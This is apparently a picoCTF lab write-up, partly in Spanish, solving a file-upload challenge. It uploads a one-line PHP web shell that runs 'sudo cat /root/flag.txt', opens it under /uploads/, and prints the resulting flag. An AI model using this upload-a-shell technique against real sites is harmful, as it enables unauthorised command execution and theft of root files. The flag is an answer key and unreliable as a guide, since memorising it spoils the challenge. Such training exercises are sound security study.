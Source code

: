 A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the `/root` directory.You can access the web application [here](http://standard-pizzas.picoctf.net:59223/)!

Hints:
1.-File upload was not sanitized
2.-Whenever you get a shell on a remote machine, check `sudo -l`

```
La pagina nos deja subir un archivo, al no subir nada nos da en el enlace un ancla php asi que podemos subir un shell php para intentar ver si hay una flag en el root con este codigo:
<?php echo exec("sudo cat /root/flag.txt");?>

Ya solo lo subimos y axedemos a la ruta:
http://standard-pizzas.picoctf.net:59223/uploads/shell.php

y nos suelta la flag:
picoCTF{wh47_c4n_u_d0_wPHP_f7424fc7}
```